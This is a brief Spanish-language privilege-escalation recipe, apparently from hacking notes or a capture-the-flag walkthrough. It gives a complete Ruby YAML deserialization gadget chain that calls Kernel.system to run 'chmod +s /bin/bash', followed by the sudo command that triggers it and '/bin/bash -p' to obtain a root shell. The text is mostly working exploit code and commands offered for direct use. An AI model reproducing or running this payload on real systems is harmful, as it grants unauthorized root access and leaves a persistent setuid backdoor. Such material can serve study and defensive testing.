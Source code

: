 Si el archivo en el cual tienes permisos tiene las función para leer un yml o puedes editarlo agrega: ==File.read(‘sample.yml’)==

Después agrega esto en el archivo .yml

```yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

```


Ejecuta el archivo,
  ```bash
  
sudo /usr/bin/ruby /directoriodelarchivo
```

Ahora typea

```bash

/bin/bash -p
```
